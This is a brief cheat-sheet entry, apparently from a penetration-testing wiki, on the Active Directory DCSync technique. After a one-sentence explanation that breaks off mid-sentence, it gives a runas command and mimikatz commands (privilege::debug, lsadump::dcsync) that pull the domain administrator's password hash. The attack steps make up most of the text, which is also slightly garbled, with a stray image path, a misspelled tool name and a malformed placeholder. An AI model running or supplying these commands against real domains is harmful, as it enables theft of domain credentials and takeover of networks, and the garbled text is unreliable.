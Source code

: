 In Active Directory, **DCsync** is a technique used by attackers to impersonate a domain controller and request password hashes from other domain controllers using the **DSGetNCChanges** function. It

Minikatz:

Run as user who has DCSync rights:

```bash
runas /netonly /user:<domain>\<user< powershell
```

Extract Administrators hash:

```bash
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:<domain> /user:<domain>\administrator
```

